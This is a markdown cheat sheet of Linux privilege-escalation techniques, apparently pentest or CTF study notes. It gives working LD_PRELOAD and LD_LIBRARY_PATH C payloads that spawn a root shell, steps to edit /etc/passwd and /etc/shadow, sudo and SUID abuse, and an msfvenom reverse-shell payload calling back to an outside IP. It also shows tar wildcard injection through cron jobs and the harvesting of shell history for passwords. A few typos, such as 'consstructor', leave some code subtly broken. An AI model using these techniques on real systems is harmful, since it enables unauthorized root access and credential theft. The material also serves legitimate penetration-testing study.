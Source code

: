 # Linux Privilege Escalation 

## Tools
1. linpeas.sh
2. Linux Smart Enumeration
3. LinEnum

## Service Exploit
- ```ps aux | grep "^root"``` will show all processes running as root.
- Then try to identify the version number of each processes with:
```bash
<program> --version
<program> -v

# debian
dkpg -l | grep <program>

# rpm
rpm -qa | grep <program>
```
## Port Forwarding
- Run this in the victim machine:
``` ssh -R <local-port>:127.0.0.1:<servnice-port> <username>@<kali-machine>```
- you can use ```netstat -an``` or ```netstat -nl``` to see which port are listening locally. ```mysql``` usually listen on ```3306```
- now you can run services that are listening locally with your kali macchine for example:
```
mysql -u root -h 127.0.0.1 -P 4444
```
## Weak File Permissions

### /etc/shadow
- Example when ```/etc/shadow``` are readable for all, you can get the hash and bruteforce it.
- if ```/etc/shadow``` is writeable you can include your own password with ```mkpasswd -m sha-512 <password>```

### /etc/passwd
- if editing is possible you can attempt to remove the ```x``` from ```root:x:0:0:root:/bin/bash```. This tells linux root has no pw.
- alternatively, you can replace the hash in ```x``` using ```openssl passwd <password>```
- you can append a new row to create another alternative root user ```root2:<hash>:0:0:root2:/bin/bash```

### Backup
- Commmon place to look for backup files include ```/```, ```/tmp```, ```/var/backup```
- You may find ```ssh``` private key from readable ```.ssh``` directory

## Sudo
- Run a program with root using ```sudo <program>```
- Run a program with a specific user using ```sudo -u <username> <program>```
- Usually you will know if you can run program as another user or root through ```sudo -l```
- if you can run root as a user for all program but ```su``` is not available you can run things like
```
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```
- you can go to GTFObin to see if you can escape to root if there are available sudo program
- even if its not in GTFObin, you can try to abuse its intended use. For example ```sudo /usr/bin/apache2 -f /etc/shadow``` can read the file.

### ENV_RESET

- if this is not set you can change the path and escalate privilege.

### LD_PRELOAD
- will not work if real user id != effective user id
- sudo must be configured to preserve the LD_PRELOAD this can see in ```sudo -l```
- use this script named as ```preload.c```:
``` c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile it ```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c```
- run ```sudo LD_PRELOAD=/tmp/preload.so find``` to get root

### LD_LIBRARY_PATH
- ```sudo -l``` should state there is LD_LIBRARY_PATH
- run ```ldd /usr/sbin/apache2 #or any program name``` to list the shared library and pick any one.
- use this script called library_path.c
``` c
#include <stdio.h>
#include <stdlib.h>

static void hijack()__attribute__((consstructor));

void hijack() {
  unsetenv("LD_LIBRARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile ```gcc -o libcrypt.so.1 -shared -fPIC library_path.c```
- run the program with that library ```sudo LD_LIBRARY_PATH=. apache2```

## Cron jobs 

- crontabs are usually located at ```/var/spool/cron/``` and ```/var/spool/cron/crontabs/```
- system wide crontab is located at ```/etc/crontab```

### File Permission + Cron
- ```cat /etc/crontab```
- check if cron jobs file are writeable ```ls -la```
- edit with reverse shell or bin/sh

### Path Env + Cron
- crontab default path is ```/usr/bin:/bin```
- you can create a file with same name so cron will trigger based on path
- ```cat /etc/crontab``` under ```PATH``` to see the path

### Wildcard + Cron
- if a cron job file as ```*``` and GTFO said you can get a shell you may use this method
- create a reverse shell with msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=8133 -f elf -o shell.elf
```
- transfer to victim and make it executable
- run
```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=shell.elf
```
- setup nc and await cronjob.

## SUID/SGID

- run this to enumerate
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```
- See GTFObin to see exploit
- Can see searchsploit and exploit DB for version number exploit as well.

### Uncommon SUID/SGID and shared library or non-absolute path
- Look into the script with ```strace``` or ```ltrace``` or ```strings``` and see if they are running anything editable or exploitable.

## Passwords and Keys

- Look for weak password or re-use passowrd
- see .bash_history or anything with ```_history```
- ```cat *history | less```

## Kernel Exploit (Last Resort)
- To enumerate Kernel version ```uname -a```
- Find exploit
- Run (Beware usually is 1 time and will crash system)
- ```Linux exploit suggester 2``` is a good tool to find kernel exploit:
```./linux-exploit-suggester-2.pl -k <kernel version>```

